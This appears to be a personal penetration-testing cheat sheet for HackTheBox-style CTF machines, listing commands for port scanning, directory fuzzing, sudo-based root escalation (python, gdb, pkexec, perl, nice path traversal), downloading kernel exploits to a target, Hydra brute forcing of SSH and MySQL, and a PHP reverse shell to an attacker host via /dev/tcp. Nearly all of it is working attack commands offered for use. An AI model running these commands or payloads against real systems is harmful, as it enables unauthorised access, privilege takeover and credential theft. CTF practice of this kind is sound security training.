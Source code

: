 # Hackthebox
- default page ```/robots.txt``` ```/secret.txt```
- ```find / -name local.txt 2> /dev/null```
- ``` find -type d -name ".*" 2>/dev/null``` it will check hidden directories.
- [Reverse_Shell_Script](https://revshells.com)

- [Nmap](#nmap)
- [BurpSuite](#burp)
- [Gobuster](#gobuster)
- [FFUF](#ffuf)
- [Privilege escalation](#privilegeescalation)
- [Mysql](#mysql)
- [Hydra](#hydra) - Brute force attack on ssh
- [FTP](#ftp) 
- [Cewl](#cewl) - It is use to create a worldlist using website link
- [netcat](#nc)

- ## Nmap <a name="nmap"></a>
- ```nmap -sC -sV -vv -oA nmap/report.txt <ip>```
- ```sudo nmap -Pn -A -p- -T4 <ip> -o nmap.txt```
- [Squid](https://github.com/aancw/spose.git) Pivoting Open Port Scanner
  - Detecting open port behind squid proxy for CTF and pentest purpose using http proxy method. Only for Python 3 version.
  - ```python3 spose.py --proxy http://192.168.208.189:3128 --target 192.168.208.189```
  - if you detect new port for example: 8080 then you need to config your proxy in firefox set ```HTTP proxy 192.168.208.189``` and ```port 3128```
  - then only you can viste the website http://192.168.208.189:8080

- ## Burp Suite <a name="burp"></a>
- use ```/manager/html``` or ```/..;/manager/html``` in the middel of ```GET/ HTTP/1.1```
  - so it will like this ```GET/ /..;/manager/html HTTP/1.1```
  - whenever you see JSESSIONID=.... use this.
 
- use ```[]==``` for the password if you don't know the pass 
 
- ## Gobuster <a name="gobuster"></a>
- ```gobuster dir -u <url> -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```

- ## FFUF <a name="ffuf"></a>
- FFUF is used to filter the invalid pages 
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -r -fs 27200```
  - if you are getting the size same of all use filter size and give the size there.
 
- ## Privilege escalation <a name="privilegeescalation"></a>
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission```
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

- ## Mysql <a name="mysql"></a>
- ```mysql -u root -p -h $ip```

- ## Hydra <a name="hydra"></a>
- ssh renu@127.0.0.1
- if you don't know the password do brute force attack. replace username with ```renu``` and ipaddress with ```127.0.01```
- ```hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ipaddress> ssh -t 50```
- ```hydra -L users.txt -P passwords.txt ssh://192.168.245.48 -t 4 > hydra.txt```
- ```hydra -l root -P /usr/share/wordlists/rockyou.txt $ip mysql```


- ## FTP <a name="ftp"></a>
- ftp <ip>
  - user:anonymous
  - pass:
  - 230 Login successful
  - to upload a file use ```put <filename>```
  - to download a file use ```get <filename>```

- ## Cewl <a name="cewl"></a>
- ```cewl -w passwords.txt http://192.168.245.48:1898/?q=node/1```

- ## netcat <a name="nc"></a>
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/attackerip/553 0>&1'");
?>
```
